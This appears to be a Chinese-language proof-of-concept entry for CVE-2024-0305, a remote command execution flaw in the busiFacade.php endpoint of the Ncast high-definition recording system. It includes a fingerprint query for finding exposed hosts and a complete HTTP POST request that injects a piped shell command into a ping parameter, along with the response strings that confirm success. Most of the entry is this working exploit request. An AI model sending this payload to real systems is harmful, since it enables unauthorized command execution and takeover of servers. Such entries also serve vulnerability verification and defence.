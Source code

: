 ﻿# Ncast盈可视高清智能录播系统busiFacade RCE漏洞

> 更新时间：2024-01-15

> 漏洞编号：CVE-2024-0305

> 漏洞说明：Ncast盈可视高清智能录播系统是一套新进的音视频录制和播放系统，旨在提供高质量，高清定制的录播功能。该系统/classes/common/busiFacade.php接口存在RCE漏洞，攻击者可以构造恶意命令远控服务器。

> 漏洞特征：app="Ncast-产品" && title=="高清智能录播系统"

> 验证脚本：HTTP

```
POST /classes/common/busiFacade.php HTTP/1.1
Connection: close
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

%7B%22name%22:%22ping%22,%22serviceName%22:%22SysManager%22,%22userTransaction%22:false,%22param%22:%5B%22ping%20127.0.0.1%20%7C%20echo%20dudesuite%22%5D%7D
```

> 响应代码特征：200

> 响应内容特征：dudesuite

> 上传文件定位：


> 验证文件来源：Ncast盈可视高清智能录播系统busiFacade RCE漏洞.poc
